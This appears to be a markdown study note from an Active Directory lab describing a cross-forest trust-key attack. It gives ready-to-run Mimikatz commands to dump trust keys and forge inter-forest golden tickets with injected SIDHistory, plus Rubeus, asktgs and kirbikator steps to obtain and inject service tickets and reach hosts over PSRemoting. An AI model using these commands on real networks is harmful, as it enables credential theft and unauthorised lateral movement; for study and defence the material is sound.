


# Cross Forest Attack - Trust Key

- [Cross Forest Attack - Trust Key](#cross-forest-attack---trust-key)
  - [Trust Key](#trust-key)
  - [Access all resources - SID History](#access-all-resources---sid-history)

---

## Trust Key

By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.

We can use the **Trust Key**, the same way as in Domain trusts but we can **access only those resources which are explicitly shared with our current forest**.

Let's try to access a file share '`eushare`' on `euvendor-dc` of `euvendor.local` forest from `eu.local` which is explicitly shared with Domain Admins of `eu.local`. 

Note:
Trust Flow:
`us.techcorp.local` <--> `eu.local` <--> `euvendor.local` 

<br/>

  

  

<br/>

Like intra forest scenario, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

Tools like `SafetyKatz` / `SharpKatz` / `BetterSafetyKatz` work as well!

<br/>

An inter-forest TGT can be forged:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

<br/>

Get a TGS for a service (`CIFS` below) in the target forest by using the forged trust ticket. Tickets for other services like the following can be created as well.

- `HOST` and `RPCSS` for `WMI`
- `HOST` and `HTTP` for PowerShell Remoting and WinRM 

```
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

Use the TGS to access the target resource which must be explicitly shared:

```
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
```

```
ls \\euvendor-dc.euvendor.local\eushare\
```

<br/>

Alternatively, we can use **Rubeus**:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

<br/>

## Access all resources - SID History

This is fine but why can't we access all resources just like Intra forest?

**SID Filtering** is the answer. It filters high privilege SIDs from the `SIDHistory` of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin. But there is a catch:

- `S-1-5-21-<Domain>-RR` >= 1000
- Identifiers for end user-created domain identities and domain groups
- Not filtered at domain and external trust boundaries. Can be filtered at member, quarantined, and cross-forest boundaries.

See also:<br/>
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280

This means, if we have an **external trust** (or a **forest trust with SID history enabled** - `/enablesidhistory:yes`), we can inject a `SIDHistory` for `RID > 1000` to access resources accessible to that identity or group in the target trusting forest.

<br/>

We had DA access to `eu.local`. Let's enumerate trusts from a PSRemoting session on `eu-dc`:

```
Get-ADTrust -Filter *
```

`SIDFilteringForestAware` is set to True, it means `SIDHistory` is enabled across the forest trust. Remember that still only `RID > 1000` SIDs will be allowed across the trust boundary.

```
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

<br/>

From `eu-dc`, create a TGT with `SIDHistory` of EUAdmins group:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

<br/>

Then request a TGS:

```
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

<br/>

Inject that into current session:

```
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```

or

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-net.euvendor.local /ptt
```

<br/>

Access the `euvendor-net` machine using PSRemoting:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

<br/>

